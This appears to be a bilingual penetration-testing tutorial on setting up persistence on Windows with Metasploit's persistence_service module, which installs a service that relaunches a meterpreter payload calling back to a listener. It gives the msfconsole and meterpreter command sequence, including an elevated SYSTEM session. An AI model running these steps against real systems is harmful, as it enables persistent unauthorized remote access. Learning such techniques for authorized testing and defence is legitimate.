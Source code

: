 We’re going to be focusing on how to establish persistence through a Windows persistence service.

We’re going to be exploring how to set up a service that will connect back to our Metasploit Framework multi/handler listener and provide us with persistent access whenever we want.

In order to run that particular module, you do need to have elevated privileges.

[Windows Persistent Service Installer](https://www.rapid7.com/db/modules/exploit/windows/local/persistence_service/)

Windows Persistent Service Installer Windows 持久服务安装程序

Description 描述

This Module will generate and upload an executable to a remote host, next will make it a persistent service. It will create a new service which will start the payload whenever the service is running. Admin or system privilege is required.

此模块将生成可执行文件并将其上传到远程主机，接下来将使其成为持久服务。它将创建一个新服务，该服务将在服务运行时启动有效负载。需要管理员或系统权限。

```
meterpreter > background
search persistence_service
use exploit/windows/local/persistence_service
use 0
```

The default payload is set to the 32 bit meterpreter payload, as we can always migrate our process into a different process that is a 64 bit process. 

The way this module works is that it will generate and upload an executable to the target system. It will then make it a persistent service. Services run in the background. This module will then create a new service, which will start the payload whenever the service is running. And you do require administrative or system privileges in order to utilize this particular module here.

```
show options
set LPORT 4433
sessions
set SESSION 1
exploit
```

This module will generate a payload with msfvenom. This payload will then be uploaded to the target system. This module will then make it a persistent service. So it’ll create a new service, which will then start the payload that was generated and uploaded to the target system whenever that service is running. And in order to create a new service on Windows, you require an elevated session or elevated privileges.

```
meterpreter > getuid
Server username: NT AUTHORITY\SYSTEM
meterpreter > exit
sessions
sessions -k 1
sessions
exit
```
